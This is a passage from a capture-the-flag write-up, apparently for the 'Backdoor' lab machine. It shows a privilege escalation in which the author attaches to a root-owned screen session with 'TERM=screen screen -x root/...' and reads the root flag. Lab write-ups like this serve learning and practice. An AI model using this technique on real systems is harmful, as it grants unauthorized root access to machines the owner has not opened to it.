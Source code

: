 

    user@Backdoor:/home/user$ screen -x root/37344              
    Please set a terminal type.



It complains about a missing terminal type. That's typically set in an
environment variable. I'll add that to the front of the command, and on
running `TERM=screen screen -x root/37344`, I'm dropped into a `screen`
session as root:



    root@Backdoor:~#                                                                



It also works using the `[user]/[session name]`, so in this case,
`TERM=screen screen -x root/root`.

I can read `root.txt`:



    root@Backdoor:~# cat root.txt
    499d4ef0************************




[Parallelizing Bash and Python
»](/parallelizing-in-bash-and-python.md)






